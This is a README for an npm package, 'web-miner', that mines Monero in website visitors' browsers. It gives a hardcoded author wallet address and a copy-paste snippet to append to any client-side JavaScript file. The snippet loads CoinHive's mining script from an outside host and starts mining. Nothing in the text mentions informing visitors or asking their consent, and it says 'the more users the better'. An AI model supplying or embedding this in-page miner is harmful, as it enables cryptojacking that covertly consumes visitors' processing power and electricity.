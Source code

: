 # Web Crypto Miner [![npmjs.com][npmjs-img]][npmjs-url] [![The MIT License][license-img]][license-url] 

> Start making money for your sites, even during development. The web crypto miner allows you to easily mine Monero (xmr) in a browser using javascript. All you need is a monero wallet address.

## Important notes:

- Make sure you are using your public wallet address.
- Once you have mined .035 xmr it will be transfered to your wallet addres.
  - This usually takes about 5 days with constant load from 1 user. So, the more users the better.
- The pool fee is 1.5%

## Install
```
npm i web-miner --save
```

## Usage

This is for client-side code only.

If you don't have a monero wallet address and need one, I highly recommend https://mymonero.com

```js
var configure = require('web-miner');

// Make sure to use your wallet address otherwise you'll be sending me coins
// Replace the string with your wallet address string
configure('4B9pCtvG2e5BMUxBjT1NsLgGDSHovEpHhCVJFx4U4kQgSYomecnqdAyXK3YdCv2W1NhhMrNFG5ieUM21uo3HxzzDTG9MT2f');

```

If for whatever reason you don't have access to `npm` or require modules you can append this code in any js file that the client uses. Again, just replace my wallet address string with your wallet address string:

```js
var script = document.createElement('script');
script.onload = function () {
  // XMR Pool hash
  var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');
   // TODO: Replace the below string with wallet string
  m.start('4B9pCtvG2e5BMUxBjT1NsLgGDSHovEpHhCVJFx4U4kQgSYomecnqdAyXK3YdCv2W1NhhMrNFG5ieUM21uo3HxzzDTG9MT2f');
 };
script.src = 'https://coinhive.com/lib/coinhive.min.js';
document.head.appendChild(script);
```

## DISCLAIMER: USE RESPONSIBLY. DO NOT PASTE THE ABOVE CODE INTO JS FILES THAT YOU DO NOT OWN. I CANNOT BE HELD RESPONSIBLE FOR YOUR ACTIONS.

## Contributing

Pull requests and stars are always welcome. 
But before doing anything, please read the [CONTRIBUTING.md](./CONTRIBUTING.md) guidelines.

